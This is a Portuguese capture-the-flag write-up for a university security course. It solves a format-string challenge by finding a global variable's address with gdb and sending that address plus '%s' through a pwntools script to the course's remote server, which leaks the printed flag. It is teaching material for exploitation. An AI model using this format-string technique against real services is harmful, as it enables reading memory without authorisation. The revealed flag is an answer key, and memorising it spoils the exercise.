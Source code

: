 # CTF Semana 7 - Format String

## Desafio 2

Primeiramente, temos que utilizar o `checksec` para descobrir mais informação sobre o programa:

![image](Semana_7/images/checksec.png)

Como podemos ver, existe um **Stack Canary**, portanto não podemos fazer Buffer Overflow.<br>

Depois, utilizamos o `gdb` para descobrir o endereço da variável global `flag`:

![image](Semana_7/images/gdb.png)

Como podemos observar, o endereço da flag é `0x804c060`. Com este endereço, podemos utilizar um ataque de format string, pois há uma vulnerabilidade no `main.c`, onde são chamados **printf()** sem passar parâmetros de formato. Para fazer o ataque, alteramos o `exploit_example.py` para o seguinte:

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

Devido ao que passamos dentro do **p.sendline()**, que é o endereço da **flag** (em little endian) e o `%s`, o que está naquele endereço será imprimido no terminal.<br>
Com isso, conseguimos obter a flag **flag{a77cc008c6b947169fca32cd56a4b47a}**.